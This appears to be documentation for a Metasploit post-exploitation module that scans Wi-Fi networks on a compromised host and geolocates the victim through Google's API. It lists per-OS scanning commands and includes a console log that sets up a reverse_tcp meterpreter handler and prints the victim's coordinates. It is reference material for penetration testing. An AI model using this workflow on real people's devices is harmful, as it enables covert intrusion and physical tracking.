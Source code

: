 ## Creating A Testing Environment

  For this module to work you need a box with a wireless adapter.  The following methods are used to gather
  wireless information from the host:
  
  - Windows: `netsh wlan show networks mode=bssid`
  - OSX: `/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s`
  - Linux: `iwlist scanning`
  - Solaris: `dladm scan-wifi`
  - BSD: `dmesg | grep -i wlan | cut -d ':' -f1 | uniq"`
  - Android: [WifiManager](https://developer.android.com/reference/android/net/wifi/WifiManager)
  
  If `GEOLOCATE` is set to true, Google's [GeoLocation APIs](https://developers.google.com/maps/documentation/geolocation/intro) are utilized.
  These APIs require a Google [API key](https://developers.google.com/maps/documentation/geolocation/get-api-key) to use them.  The original
  methodology used by this module in [#3280](https://github.com/rapid7/metasploit-framework/pull/3280),
  which didn't require an API key, was found to no longer work in [#8928](https://github.com/rapid7/metasploit-framework/issues/8928).  
  
## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session via whatever method
  3. Do: `use post/multi/gather/wlan_geolocate`
  4. Do: `set session #`
  5. Do: `set apikey [key]`
  5. Do: `run`

## Options

  **geolocate**
  
  A boolean on if wireless information should only be gathered, or the Google geolocate API should be used to geo the victim.  Defaults to `false`
  
  **apikey**

  A string containing the Google provided geolocation api key. **REQUIRED** if `geolocate` is set to true. Defaults to empty string

## Scenarios

### Windows 10

	resource (met_rev.rc)> use exploit/multi/handler
	resource (met_rev.rc)> set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	resource (met_rev.rc)> setg lhost 2.2.2.2
	lhost => 2.2.2.2
	resource (met_rev.rc)> set lport 9876
	lport => 9876
	resource (met_rev.rc)> setg verbose true
	verbose => true
	resource (met_rev.rc)> exploit
	[*] Exploit running as background job 0.
	[*] Started reverse TCP handler on 2.2.2.2:9876 
	[*] Sending stage (179267 bytes) to 1.1.1.1
	[*] Meterpreter session 1 opened (2.2.2.2:9876 -> 1.1.1.1:16111) at 2017-10-01 19:27:15 -0400
	
	resource (met_rev.rc)> use post/multi/gather/wlan_geolocate
	resource (met_rev.rc)> set geolocate true
	geolocate => true
	resource (met_rev.rc)> set session 1
	session => 1
	resource (met_rev.rc)> set apikey ANza1yFLhaK3lreck7N3S_GYbEtJE3gGg5dJe12
	apikey => ANza1yFLhaK3lreck7N3S_GYbEtJE3gGg5dJe12
	msf post(wlan_geolocate) > run
	[+] Wireless list saved to loot.
	[*] Google indicates the device is within 30.0 meters of 30.3861197,-97.7385878.
	[*] Google Maps URL:  https://maps.google.com/?q=30.3861197,-97.7385878
	[*] Post module execution completed
